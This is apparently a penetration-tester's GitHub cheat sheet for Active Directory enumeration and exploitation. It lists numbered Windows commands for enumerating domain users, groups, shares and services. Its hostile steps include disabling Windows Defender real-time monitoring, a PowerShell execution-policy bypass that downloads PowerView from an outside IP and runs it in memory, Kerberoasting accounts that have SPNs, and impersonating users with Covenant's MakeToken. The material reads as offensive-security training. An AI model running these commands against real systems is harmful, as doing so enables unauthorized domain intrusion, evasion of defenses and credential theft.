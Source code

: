 # Active Directory Enumeration

Enumerate and exploit AD users and groups.

1. Enumerate all **local accounts**
   
        net user

2. Enumerate all users in the **entire domain**

        net user /domain

3. Query information about **individual users**

        net user USERNAME /domain
    
    Identify a user who is member of the **Domain Admins** group

4. Enumerate all groups in the domain

        net group /domain

    Analyse output and identify custom groups, if any.

5. Create an **LDAP connection string**

        LDAP://DC=|SERVER NAME|[,DC=|EXTENSION|]

6. **Disable Windows Defender** by running following PowerShell command as a local administrator

        Set-MpPreference -DisableRealtimeMonitoring $true

7. **Extract** files from a ZIP folder using PowerShell
  
        Expand-Archive -LiteralPath ./filename.zip -DestinationPath ./outputFolderName

8. Check **file permissions**

        icacls filename.txt

9. **Grant** a user **full control** over a folder and all its subfolders

        icacls "C:\folder\path" /grant Username:(OI)(CI)F /T

10. **Check** the current user's **integrity level**

        whoami /groups

    Is it **low**, **medium**, **high**, **system**, or **installer**?

11. **Change** the integrity level of a file

        icacls winPEASx64.exe /setintegritylevel Low
    ---
        > icacls winPEASx64.exe
        winPEASx64.exe NT AUTHORITY\SYSTEM:(I)(F)
                BUILTIN\Administrators:(I)(F)
                COMPATIBILITY\Administrator:(I)(F)
                Mandatory Label\Low Mandatory Level:(NW)

12. Check the current user's **permissions**

        whoami /priv

13. List the "Security Update" **patches**

        Get-Hotfix -description "Security update"

14. Get a list of running **non-standard services** that **start automatically**

        wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"

15. Enumerate the **internal network** to find live hosts

        for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && echo 10.5.5.%i is up.

16. Use [CrackMapExecWin](../crackmapexecwin/README.md) to check which boxes could be accessed using any of the known credentials

17. Use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to find users on the network with enhanced privileges

        powershell.exe -executionpolicy bypass "iex(New-Object System.Net.WebClient).DownloadString('http://10.14.14.9:8000/PowerView_v1.ps1'); Get-NetComputer"

    ---

        Get-DomainComputer | Select name
        Find-DomainShare
        Find-DomainShare -CheckShareAccess

    ---

    List the interesting shares, if found

        ls \\citrix\citrix$\

    Check if a domain user has SPN associated with them

        Get-DomainUser

    Request a Ticket Granting Service Ticket (TGS-REQ) for an identified service. The returned TGS (TGS-REP) would be encrypted using the NTLM password hash of the account in whose context the service was running.

18. [Refer steps mentioned here](../attacking_kerberos/README.md) to obtain and crack the hash for a user who has an SPN associated with them
19. Check current user's permissions

        whoami /priv

20. If `SeImpersonatePrivilege` feature is enabled for current user, and, if hash (from step #18, above) was cracked successfully, then **impersonate** as a different user using [Covenant](https://github.com/cobbr/Covenant)

        MakeToken <username> <domain.local> <password> LOGON32_LOGON_INTERACTIVE

    List the shares as impersonated user

        ls \\citrix\citrix$\

## References

* https://www.codemag.com/Article/1312041/Using-Active-Directory-in-.NET
* https://www.wintips.org/how-to-disable-or-remove-windows-defender-antivirus-in-server-2016/
* https://www.robvanderwoude.com/ntadmincommands.php
* https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/integrity-levels
* https://stackoverflow.com/questions/2928738/how-to-grant-permission-to-users-for-a-directory-using-command-line-in-windows
* https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
* https://morph3sec.com/Writeups/HackTheBox/HackTheBox-Endgame-Xen-Writeup/
* https://www.picussecurity.com/blog/picus-10-critical-mitre-attck-techniques-t1003-credential-dumping
* https://info.varonis.com/hubfs/docs/whitepapers/en/ebook_pen_testing_031317.pdf?hsLang=en
* https://github.com/cobbr/Covenant
* https://powersploit.readthedocs.io/en/latest/Recon/Find-DomainShare/
